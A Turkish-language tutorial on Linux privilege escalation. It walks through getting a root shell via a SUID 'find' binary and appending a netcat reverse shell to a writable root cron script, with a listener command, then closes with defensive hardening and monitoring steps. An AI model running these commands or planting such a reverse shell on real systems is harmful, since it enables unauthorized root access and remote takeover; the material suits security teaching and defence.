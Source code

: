 # Yetki Yükseltme (Privilege Escalation) Nedir?

Yetki yükseltme, bir kullanıcının sistemde sahip olmadığı veya normalde erişemeyeceği izinleri elde etme sürecidir. Saldırganlar, sistemlerdeki zayıflıkları veya yanlış yapılandırmaları kullanarak daha yüksek ayrıcalıklar elde edebilirler.

## Yetki Yükseltme Türleri

### 1. Dikey Yetki Yükseltme (Privilege Elevation)
Kullanıcı, kendisinden daha yetkili bir hesaba (root gibi) erişim kazanır.

### 2. Yatay Yetki Yükseltme (Horizontal Escalation)
Kullanıcı, kendi seviyesindeki başka bir hesabın erişim haklarını ele geçirir.

---

## Yetki Yükseltme Senaryoları

### 1. SUID Exploit ile Yetki Yükseltme

#### **SUID Nedir?**
SUID (Set User ID), Linux'ta bir dosyanın çalıştırıldığında sahibinin yetkileriyle çalışmasını sağlayan özel bir izin bitidir. Eğer bir program root tarafından sahiplenmiş ve SUID biti ayarlanmışsa, herhangi bir kullanıcı o programı çalıştırdığında root yetkileriyle çalıştırabilir.

#### **Adım 1: SUID Biti Olan Dosyaları Bulma**

Sistem üzerindeki SUID dosyalarını bulmak için:
```bash
find / -perm -4000 2>/dev/null
```
- `find /` : Tüm dosya sisteminde arama yapar.
- `-perm -4000` : SUID biti ayarlanmış dosyaları bulur.
- `2>/dev/null` : Hata mesajlarını gizlemek için kullanılır.

#### **Adım 2: Tehlikeli SUID Dosyalarını Tespit Etme**

"find" komutunun SUID biti olup olmadığını kontrol edelim:
```bash
ls -l /usr/bin/find
```
- `ls -l` : Dosyanın ayrıntılı izinlerini gösterir.
- `/usr/bin/find` : İncelenecek dosyanın yolu.

Eğer çıktı şu şekildeyse:
```
-rwsr-xr-x 1 root root ….  /usr/bin/find
```
Burada `s` harfi, SUID bitinin aktif olduğunu gösterir.

#### **Adım 3: Exploit Kullanarak Root Yetkisi Alma**

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```
- `/usr/bin/find .` : Geçerli dizinde `find` komutunu çalıştırır.
- `-exec /bin/sh -p \;` : `sh` kabuğunu root yetkileriyle çalıştırır.
- `-quit` : İşlem tamamlandığında çıkış yapar.

#### **Adım 4: Yetki Kazandığımızı Doğrulama**

```bash
whoami
```
- `whoami` : Mevcut kullanıcının kim olduğunu gösterir.

Eğer "root" çıktısı alınırsa, başarıyla yetki yükseltme gerçekleşmiştir.

---

### 2. Dosya İzinlerini Kötüye Kullanarak Yetki Yükseltme

#### **Yanlış Dosya İzinleri Nedir?**
Root tarafından çalıştırılan bir dosyanın herkes tarafından yazılabilir olması, saldırganların bu dosyayı değiştirerek root yetkisi kazanmasına neden olabilir.

#### **Adım 1: Yazılabilir Root Dosyalarını Bulma**

```bash
find / -user root -perm -2 -type f 2>/dev/null
```
- `find /` : Tüm sistemde arama yapar.
- `-user root` : Sahibi root olan dosyaları bulur.
- `-perm -2` : Diğer kullanıcılar tarafından yazılabilir dosyaları bulur.
- `-type f` : Yalnızca dosyaları listeler.
- `2>/dev/null` : Hata mesajlarını gizler.

#### **Adım 2: Tehlikeli Bir Script Bulma**

```bash
ls -l /etc/cron.daily/backup.sh
```
- `ls -l` : Dosyanın ayrıntılı izinlerini gösterir.

#### **Adım 3: Kötü Amaçlı Kod Ekleyerek Root Yetkisi Alma**

```bash
echo "nc -e /bin/bash 192.168.1.100 4444" >> /etc/cron.daily/backup.sh
```
- `echo` : Komutun çıktısını dosyaya yazmak için kullanılır.
- `nc -e /bin/bash 192.168.1.100 4444` : Saldırganın IP’sine ters kabuk açar.

#### **Adım 4: Saldırgan Makineden Dinleme Yapma**

```bash
nc -lvnp 4444
```
- `nc` : Netcat aracı.
- `-l` : Dinleme modunda çalıştırır.
- `-v` : Ayrıntılı çıktı gösterir.
- `-n` : DNS çözümlemeyi devre dışı bırakır.
- `-p 4444` : 4444 numaralı portu dinler.

---

## Yetki Yükseltmeye Karşı Savunma Önlemleri

### 1. SUID Biti Olan Dosyaları Kısıtlayın

```bash
chmod -s /path/to/suid_binary
```
- `chmod -s` : SUID bitini kaldırır.

Kritik SUID dosyalarını takip edin:
```bash
auditctl -w /usr/bin/find -p x -k suid_exec
```
- `auditctl -w` : Belirtilen dosyayı izle.
- `-p x` : Çalıştırma işlemlerini kaydet.
- `-k suid_exec` : Kayıt anahtarı.

### 2. Root Dosyalarının İzinlerini Sıkılaştırın

```bash
chmod 750 /etc/cron.daily/backup.sh
chown root:root /etc/cron.daily/backup.sh
```
- `chmod 750` : Root ve grup dışındaki kullanıcıların erişimini engeller.
- `chown root:root` : Dosyanın sahibi ve grubunu root yapar.

### 3. Cron Joblarını Güvenli Hale Getirin

```bash
crontab -l
cat /etc/crontab
```
- `crontab -l` : Kullanıcının cron görevlerini listeler.
- `cat /etc/crontab` : Sistem genelindeki cron görevlerini gösterir.

### 4. Şüpheli Aktiviteleri İzleyin

```bash
netstat -tulnp | grep LISTEN
ps aux | grep root
```
- `netstat -tulnp` : Açık portları ve dinleyen işlemleri gösterir.
- `ps aux | grep root` : Root kullanıcıya ait çalışan işlemleri listeler.